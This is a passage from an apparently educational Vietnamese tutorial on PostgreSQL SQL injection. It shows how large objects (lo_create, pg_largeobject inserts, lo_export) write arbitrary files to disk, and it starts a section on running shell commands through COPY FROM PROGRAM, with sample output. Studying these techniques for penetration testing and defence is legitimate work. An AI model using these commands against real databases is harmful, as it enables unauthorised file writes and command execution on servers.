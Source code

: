 ##### **Ghi tệp với Large Objects:**

1. **Tạo đối tượng lớn**:
   ```sql
   SELECT lo_create(31337);
   ```

2. **Chèn dữ liệu vào đối tượng lớn**:
   Dữ liệu phải được mã hóa dưới dạng hex và chèn vào đối tượng lớn theo từng trang 2KB:
   ```sql
   INSERT INTO pg_largeobject (loid, pageno, data) VALUES (31337, 0, DECODE('<hexstring>', 'HEX'));
   ```

3. **Xuất đối tượng lớn ra tệp**:
   ```sql
   SELECT lo_export(31337, '/tmp/passwd');
   ```

4. **Xóa đối tượng lớn**:
   ```sql
   SELECT lo_unlink(31337);
   ```

Sau khi thực hiện, bạn sẽ có tệp `/tmp/passwd` chứa nội dung của tệp đã xuất.

##### **Quyền truy cập với Large Objects:**

- Người dùng có thể tạo và xóa **large objects** mà không cần quyền đặc biệt.
- Tuy nhiên, để nhập, xuất hoặc cập nhật dữ liệu trong large objects, người dùng cần quyền **superuser** hoặc các quyền đặc biệt khác.

---


# 10. Tổng Quan về Thực Thi Lệnh qua SQL Injection

Trong phần này, chúng ta sẽ xem xét hai phương pháp để thực thi các lệnh qua SQL Injection, cụ thể là trong cơ sở dữ liệu PostgreSQL. Những phương pháp này bao gồm việc sử dụng lệnh `COPY` và các extension của PostgreSQL.

### Phương Pháp 1: Sử Dụng Lệnh `COPY` cho Việc Thực Thi Lệnh

Một trong những cách đơn giản để thực thi lệnh trong PostgreSQL qua SQL Injection là sử dụng lệnh `COPY`. Lệnh này thường được dùng để sao chép dữ liệu từ các tệp vào bảng, nhưng nó cũng có thể chạy các chương trình shell và lưu kết quả vào một bảng.

Ví dụ, ta có thể sử dụng lệnh `COPY` để chạy lệnh shell `id` và lưu kết quả vào một bảng như sau:

```sql
bluebird=# CREATE TABLE tmp(t TEXT);
CREATE TABLE
bluebird=# COPY tmp FROM PROGRAM 'id';
COPY 1
bluebird=# SELECT * FROM tmp;
t
-----------------------------------------------------------------------
uid=119(postgres) gid=124(postgres) groups=124(postgres),118(ssl-cert)
(1 row)
bluebird=# DROP TABLE tmp;
DROP TABLE
```
